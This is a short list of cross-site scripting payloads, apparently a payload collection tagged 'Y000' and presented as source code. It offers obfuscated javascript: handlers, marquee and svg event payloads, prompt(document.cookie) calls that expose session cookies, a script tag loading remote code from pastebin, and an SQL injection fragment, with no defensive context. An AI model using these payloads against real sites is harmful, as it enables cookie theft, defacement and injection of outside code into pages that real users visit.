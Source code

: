
##<form><button formaction=javascript&colon;alert('xss_by_Y000!')>_Y000!_


##<marquee><form><button formacti\u006fn=javascript&colon;pr\u006fmpt('xss_by_Y000!')>_Y000!_</marquee>


<script type="text' or 1=1 limit 1 -- -+javascript" src="https://pastebin.com/raw/qc81pzSR"></script>

<Img src="/" =_=" title="onerror='prompt(document.cookie)'">

-1'<marquee>hacked by Y000</marquee>

##<marquee direction="down" width="250" height="200" behavior="alternate" style="border:solid">
  <marquee behavior="alternate">
    Xss by Y000
  </marquee>
 <marquee behavior="alternate">
    Y000
  </marquee>
</marquee>


<marquee loop=1 width=0 onfinish=pr\u006fmpt(document.cookie)>Y000</marquee>



"onfocus="alert('Y000')"+autofocus="

</script><!--><svg onload=[document.domain].find%26%2340;alert%26rpar;>
